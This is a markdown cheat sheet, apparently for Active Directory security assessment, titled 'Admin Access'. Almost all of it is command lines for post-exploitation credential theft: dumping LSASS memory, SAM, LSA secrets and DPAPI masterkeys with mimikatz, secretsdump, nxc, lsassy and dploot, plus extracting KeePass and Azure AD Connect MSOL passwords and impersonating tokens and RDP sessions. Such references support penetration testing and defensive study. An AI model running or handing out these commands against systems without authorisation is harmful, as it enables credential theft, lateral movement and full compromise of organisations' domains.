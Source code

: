 ```yaml
---
title: "Admin Access"
description: "Admin Access techniques and commands for Active Directory security assessment."
---
```

## Extract credentials from LSASS.exe
- LSASS as protected process
  - `PPLdump64.exe <lsass.exe|lsass_pid> lsass.dmp #before 2022-07-22 update`
  - `mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate"  "sekurlsa::logonpasswords" "!processprotect  /process:lsass.exe" "!-"`
- Extract LSASS secrets  >>> User + Pass || NTLM || PassTheHash || Clear text move
  - `procdump.exe -accepteula -ma lsass.exe lsass.dmp`
  - `mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"  "exit"`
  - `msf> load kiwi creds_all`
  - `nxc smb <ip_range> -u <user> -p <password> -M lsassy`
  - `lsassy -d <domain> -u <user> -p <password> <ip>`

## Extract credentials from SAM >>> NTLM || PassTheHash
- `nxc smb <ip_range> -u <user> -p <password> --sam`
- `msf> hashdump`
- `mimikatz "privilege::debug" "lsadump::sam" "exit"`
- `secretsdump.py <domain>/<user>:<password>@<ip>`
- `reg save HKLM\SAM <file>;  reg save HKLM\SYSTEM <file>`
  - `secretsdump.py -system SYSTEM -sam SAM LOCAL`
- `reg.py <domain>/<user>:<password>@<ip> backup -o '\\<smb_ip>\share'`
  - `secretsdump.py -system SYSTEM -sam SAM LOCAL`
- `regsecrets.py <domain>/<user>:<password>@<ip>`

## Extract credentials from LSA >>> MsCache 2 || User + Pass
- `nxc smb <ip_range> -u <user> -p <password> --lsa`
- `mimikatz "privilege::debug" "lsadump::lsa" "exit"`
- `reg save HKLM\SECURITY <file>;  reg save HKLM\SYSTEM <file>`
  - `secretsdump.py -system SYSTEM -security SECURITY`
- `reg.py <domain>/<user>:<password>@<ip> backup -o '\\<smb_ip>\share'`

## Extract credentials from DPAPI
- DPAPI >>> User + Pass || PassTheHash || Clear text move
  - `nxc smb <ip_range> -u <user> -p <password> --dpapi [cookies] [nosystem]`
  - `donpapi <domain>/<user>:<password>@<target>`
  - `dpapidump.py <domain>/<user>:<password>@<target>`
  - get masterkey
    - `mimikatz "sekurlsa::dpapi"`
      - `dploot.py browser -d <domain> -u <user> -p '<password>' <ip> -mkfile <masterkeys_file>`
    - `lsassy -d <domain> -u <user> -p <password> <ip> -m rdrleakdiag -M masterkeys`
      - `dploot.py browser -d <domain> -u <user> -p '<password>' <ip> -mkfile <masterkeys_file>`
  - `SharpDPAPI.exe triage`

- Crack users masterkey >>> DPAPImk
  - copy c:\users\<user>\AppData\Roaming\Microsoft\Protect\<SID> 
    - `DPAPImk2john.py --preferred <prefered_file>`
      - `DPAPImk2john.py -c domain -mk <masterkey> -S <sid>`

## Impersonate
- Impersonate >>> ACL || User + Pass
  - `msf> use incognito impersonate_token <domain>\\<user>`
  - `nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users`
    - `nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>`
  - `irs.exe list`
    - `irs.exe exec -p <pid> -c <command>`

- Impersonate with adcs >>> NTLM || Pass The Hash / Ticket / Certificate
  - `masky - d <domain> -u <user>  (-p <password> || -k || -H <hash>) -ca <certificate authority> <ip>`

- Impersonate RDP Session >>> RDP
  - `psexec.exe -s -i cmd`
    - `query user`
      - `tscon.exe <id> /dest:<session_name>`

## Misc
- Find Users >>> Username
  - `smbmap.py --host-file ./computers.list -u <user> -p <password> -d <domain> -r 'C$\Users' --dir-only --no-write-check --no-update --no-color --csv users_directory.csv`
- Extract Keepass >>> User + Pass
  - `KeePwn.py plugin add -u '<user>' -p '<password>' -d '<domain>' -t <target> --plugin KeeFarceRebornPlugin.dll`
  - `KeePwn.py trigger add -u '<user>' -p '<password>' -d '<domain>' -t <target>`
- Hybrid (Azure AD-Connect) >>> DCSYNC
  - Dump cleartext password of MSOL Account on ADConnect Server
    - `azuread_decrypt_msol_v2.ps1`
    - `nxc smb <ip> -u <user> -p <password> -M msol`